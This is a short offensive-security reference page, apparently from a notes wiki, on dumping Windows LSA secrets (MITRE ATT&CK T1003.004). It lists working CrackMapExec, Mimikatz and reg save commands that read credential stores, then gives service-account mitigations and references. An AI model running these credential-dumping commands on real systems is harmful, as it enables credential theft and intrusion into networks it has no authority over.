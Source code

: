 ```yaml
---
description: MITRE ATT&CK, Credential Access, Sub-technique T1003.004
---
```


# LSA Secrets

> LSA secrets are stored in the registry at `HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets`. LSA secrets can also be dumped from memory.

```bash
# Dumping LSA Secrets remotely with CrackMapExec
crackmapexec smb $ip -u $user -p $password --lsa

# Dumping LSA Secrets with Mimikatz
lsadump::secrets

# Dumping LSA Secrets manually and then reading them with Mimikatz
reg save HKLM\SYSTEM system & reg save HKLM\security security
lsadump::secrets /system:c:\temp\system /security:c:\temp\security
```

### Mitigations

When cleartext credentials are retrieved from LSA Secrets it is due to the credentials being stored for a service (E.g., creating a service with a custom user account).

To mitigate this issue, avoid using a domain account for the service. Best practice is to avoid using a domain user account for services. Rather, create a local account to run the service. If specific domain user rights are needed then create an account with the _specific_ rights required. It should also be stated to **never** use a domain administrator account for a service.

### References

{% embed url="https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets" %}

{% embed url="https://www.sentinelone.com/blog/windows-security-essentials-preventing-4-common-methods-of-credentials-exfiltration" %}

{% embed url="https://www.passcape.com/index.php?cmd=details&id=23&section=docsys" %}
